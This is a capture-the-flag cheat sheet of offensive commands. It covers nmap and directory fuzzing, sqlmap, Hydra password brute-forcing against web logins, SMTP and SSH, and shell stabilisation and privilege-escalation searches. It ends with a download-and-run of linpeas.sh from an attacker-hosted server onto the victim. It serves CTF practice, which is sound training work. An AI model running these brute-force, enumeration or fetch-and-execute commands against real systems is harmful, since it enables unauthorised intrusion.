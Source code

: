 # CTF-cheatsheet
## RECON
### NMAP
`sudo nmap -sV -sT -A -p- IP`
### FFUF
`ffuf -u http://IP/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -ac` no extensions \
`ffuf -u http://IP/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php,.js,.html,.txt -ac` with extensions 
#### Other extensions that could be used: .cfg, .bak, .json, etc.
### Dirsearch
`dirsearch -u http://IP`
### Sqlmap
`sqlmap -u http://IP --forms`
#### Depending on the situation, `--level=` and `--risk=` can be used
## EXPLOIT
* ExploitDB
* GitHub
* Metasploit
### Hydra
`hydra -L useranme.txt -P passwords.txt IP/DOMAIN_NAME http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid creds or something" -V -f`
>HTTP form brute-forcing

`hydra -l bob -P /usr/share/wordlists/rockyou.txt IP http-get "/protected" -V -f`
>HTTP Basic auth

`hydra -l user -P list.lst IP smtps -V -f`
>SMTP/S Brute-forcing

`hydra -l user -P list.lst ssh://IP -V -f`
>SSH Brute-forcing

## PRIVESC
### Shell stabilization
```
python3 -c 'import pty; pty.spawn("/bin/bash");'
export TERM=xterm
```
#### Background session
```
stty raw -echo
fg
```
#### Foreground back to victim

### Find SUID binaries
`find / -perm -u=s -type f 2>/dev/null`

### Find files with writable permissions
`find / -writable -type  f 2>/dev/null | grep -v "/proc/"`

### List all capabilities recursively
`getcap -r / 2>/dev/null`

### Get and run linpeas.sh
#### On attacker machine:
```
python3 -m http.server 9000
````
#### On victim
```
cd /tmp
wget -u http://IP:9000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
#### Curl can also be used, or whatever method to get linpeas.sh on victim's machine

